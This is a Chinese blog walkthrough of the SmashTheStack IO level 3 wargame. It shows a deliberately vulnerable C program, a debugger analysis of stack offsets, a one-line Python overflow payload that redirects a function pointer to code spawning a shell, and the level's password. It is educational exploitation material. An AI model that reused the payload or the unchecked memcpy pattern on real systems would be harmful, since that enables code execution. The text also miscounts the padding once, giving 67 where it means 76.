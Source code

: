 title: SmashTheStack IO level3
date: 2015-05-22 20:25:03
tags: 
- 缓冲区溢出
- Smash the Stack
categories: Smash the Stack
---
密码：IFd92yzOnSMv9tkX
<!--more-->
这个是最基本的缓冲区溢出，如果不明白缓冲区溢出的，可以自己百度。。。。。。
# I、源码
## ① 源代码：
```
//bla, based on work by beach

#include <stdio.h>
#include <string.h>

void good()
{
    puts("Win.");
    execl("/bin/sh", "sh", NULL);
}
void bad()
{
    printf("I'm so sorry, you're at %p and you want to be at %p\n", bad, good);
}

int main(int argc, char **argv, char **envp)
{
    void (*functionpointer)(void) = bad;
    char buffer[50];
    if(argc != 2 || strlen(argv[1]) < 4)
        return 0;

    memcpy(buffer, argv[1], strlen(argv[1]));
    memset(buffer, 0, strlen(argv[1]) - 4);

    printf("This is exciting we're going to %p\n", functionpointer);
    functionpointer();

    return 0;
}
```
## ② 执行结果
![](http://ww2.sinaimg.cn/large/005CA6ZCgw1eslav1k4bwj30io027q3r.jpg)
## ③ 分析结果
最终要跳转到good()函数执行，调用 execl("/bin/sh", "sh", NULL);
bad()函数的起始地址是0x80484a4，good()函数的起始地址是0x8048474
起初functionpointer是指向bad()函数的，需要构造输入，使buffer溢出，修改functionpointer的值
# II、函数说明
## ① memcpy()
【定义函数】void *memcpy(void*dest, const void *src, size_t n);
【函数说明】
1. source和destin所指内存区域不能重叠，函数返回指向destin的指针。
2. 与strcpy相比，memcpy并不是遇到'\0'就结束，而是一定会拷贝完n个字节。 memcpy用来做内存拷贝，你可以拿它拷贝任何数据类型的对象，可以指定拷贝的数据长度；
3. 如果目标数组destin本身已有数据，执行memcpy（）后，将覆盖原有数据（最多覆盖n）。如果要追加数据，则每次执行memcpy后，要将目标数组地址增加到你要追加数据的地址。
 注意，source和destin都不一定是数组，任意的可读写的空间均可。
【返回值】函数返回一个指向dest的指针。

## ② memset()
【定义函数】void * memset( void * ptr, int value, size_t num );
【函数说明】
 memset()会将ptr所指的内存区域的前num个字节的值都设置为value，然后返回指向ptr的指针。
memset()可以将一段内存空间全部设置为特定的值，所以经常用来初始化字符数组。
【返回值】返回指向 ptr 的指针。
# III、找漏洞
## ① 栈
![](http://ww1.sinaimg.cn/large/005CA6ZCgw1eslavce0j0j30mc0c6776.jpg)
ebp:0xbffffc88，esp:0xbffffc10，栈范围：0xbffffc10~0xbffffc88
## ② 内存
![](http://ww1.sinaimg.cn/large/005CA6ZCgw1eslavkosj2j30nn093jwt.jpg)
查看functionpointer的地址，分析其和buffer起始地址的距离
functionpointer在buffer前定义，先入栈，在高地址，functionpointer（0x80484a4）的地址为0xbffffc7c
buffer的起始地址为0xbffffc30，中间隔了76Byte
## ③ 构造输入
需要先输入67个任意字符，到functionpointer前地址，0x8048474（good()函数起始地址）和0x80484a4（bad()函数起始地址）只有最后一个Byte不同，只用修改最后1Byte值，所以构造的输入：76*A+0x74
"$(python -c 'print "A"*76 + "t" ' )"
（t的ascii码值：0x74）

![](http://ww3.sinaimg.cn/large/005CA6ZCgw1eslavpqx9dj30k80350tk.jpg)



